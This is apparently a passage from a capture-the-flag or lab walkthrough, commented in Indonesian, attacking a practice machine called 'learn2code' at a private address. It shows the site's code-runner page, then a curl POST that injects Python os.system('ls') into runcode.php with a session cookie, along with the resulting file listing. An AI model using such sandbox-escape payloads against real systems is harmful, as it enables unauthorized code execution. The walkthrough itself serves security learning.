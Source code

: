 ```bash
                                <!-- Configurations -->
                                <meta charset="utf-8">
                                <meta http-equiv="X-UA-Compatible" content="IE=edge">
                                <meta name="viewport" content="width=device-width, initial-scale=1">

                                <!-- Styles -->
                                <link href="../includes/css/style.css" rel="stylesheet">
                                <link href="../includes/css/bootstrap.min.css" rel="stylesheet">

                                <!-- JavaScript -->
                                <script src="../includes/js/jquery-3.4.1.min.js"></script>
                                <script src="../includes/js/bootstrap.min.js"></script>
                                <script src="../includes/js/custom_lib.js"></script>
                                <script src="../includes/js/functions.js"></script>
                        </head>
                        <body>
                                <div class="container">
                                        <div class="row d-flex justify-content-center h-100">
                                                <div class="col-md-6 boxWrap">
                                                        <div class="container">
                                                                <div class="row">
                                                                        <div class="col-12">
                                                                                <label for="custom_code">Type your code:</label>
                                                                                <textarea class="form-control custom-code" id="custom_code" rows="10"></textarea>
                                                                        </div>
                                                                </div>
                                                                <div class="row">
                                                                        <div class="col-12">
                                                                                <button type="button" class="btn btn-primary btn-block" onclick="run_code();">Run code</button>
                                                                        </div>
                                                                </div>
                                                                <div class="row">
                                                                        <div class="col-12">
                                                                                <textarea class="form-control response-code" id="response_code" rows="10" disabled></textarea>
                                                                        </div>
                                                                </div>
                                                        </div>
                                                </div>
                                        </div>
                                </div>
                        </body>
                </HTML>
* Connection #0 to host 192.168.56.27 left intact
     
```
saya ulangi lagi dan mencoba untuk memasukkan ini ke dalam request data dengan POST method untuk dikirimkan ke url **/includes/php/access.php**. dan mengambil cookiesnya untuk injeksi *python sandboxes* yang terdapat pada situs tersebut.
```
╭─ via [machines/learn2code]
╰─ curl -sX POST 'http://192.168.56.27/includes/php/runcode.php' -d "action=run_code&code=__import__('os').system('ls')" -b "PHPSESSID=n6jrt811hte6ni7hetvj4vh6kp"
GoogleAuthenticator.php
access.php
access.php.bak
coder.php
runcode.php
╭─ via [machines/learn2code]
```